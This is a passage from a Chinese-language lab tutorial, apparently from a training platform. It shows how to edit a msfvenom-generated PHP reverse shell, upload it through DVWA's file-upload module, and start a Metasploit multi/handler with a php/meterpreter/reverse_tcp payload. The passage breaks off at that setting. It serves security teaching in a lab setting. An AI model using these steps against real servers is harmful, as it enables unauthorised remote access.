 生成该脚本需要一定的时间，大概在 3-5 分钟左右，请大家耐心等待，若是有这样的信息输出表示成功：

![generate_payload](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741081670.png/wm)

在当前的目录中我们可以看到这个文件的存在：

![show_generate_php](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741090178.png/wm)

生成的脚本我们可以通过 `vim reverse_shell.php` 来查看一下生成的脚本：

![show_generate_code.png](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741143459.png/wm)

我们看到生成的脚本源码格式非常的不混乱，一点都不友好，不方便查看。

与此同时我们还看到 `<?php` 的头标签被注释掉了，我们需要去掉该注释才能正常的运行，同时我们也看到了 `$ip` 与 `$port` 这样两个变量，这便是我们刚刚设置的本地 IP 地址与空闲的端口号，若是刚刚设置有误，同样可以在这里修改：

![modify-source-code](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741155220.png/wm)

使用 `:wq` 保存退出。

因为本环境只是使用了 kali 的终端，未有图形界面，所以无法在 Kali 的环境中上传该脚本，我们需要将该脚本传输至本地的实验楼环境中，然后使用 firefox 上传。

利用 shiyanlou 用户的终端，我们使用 scp 工具将该脚本传输至本地：

```
scp root@kali:/var/www/html/reverse_shell.php ./
```

其中 root 表示登陆的用户，kali 表示登陆到的主机，因为我们在 hosts 中添加了别名，kali 别名可以正确的解析出对应的 IP 地址 `192.168.122.101`，`:/var/www/html/reverse_shell` 是指定的我们将要传输的文本，刚刚在使用 msfvenom 时我在 `/var/www/html` 目录中，所以该文件在这个路径中，你的不一定在这个路径中，你可以在 kali 中通过 `pwd` 命令获取当前所在的位置，从而填写相应正确的路径。其中 `./` 表示将需要下载的文件存放至 shiyanlou 用户当前执行命令所在的目录中，通过 `ls -lah |grep reverse` 或者 `ll` 可以看到：

![download_script](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741166568.png/wm)

因为 msfconsole 的启动时间较长，所以我们此时在 kali 的终端中使用 `msfconsole` 命令打开。

接下来的步骤与本地文件包含的方式类似了，首先我们打开 firefox 到 dvwa 平台的上传模块将刚刚的脚本上传到目的主机（当然此处你可以使用远程文件包含的攻击方式，当时远程文件包含的方式非常受限，需要许多的特定条件，所以此处不在演示。）：

![upload_chose_file](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741174923.png/wm)

成功的上传脚本：

![get_upload_path](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741182073.png/wm)

此时我们的 msfconsole 也成功启动了，我们使用相应的模块：

```
use exploit/multi/handler
```

![use_module](https://doc.shiyanlou.com/document-uid113508labid2427timestamp1482741190323.png/wm)

然后设置我们所使用的攻击脚本：

```
set PAYLOAD php/meterpreter/reverse_tcp
```

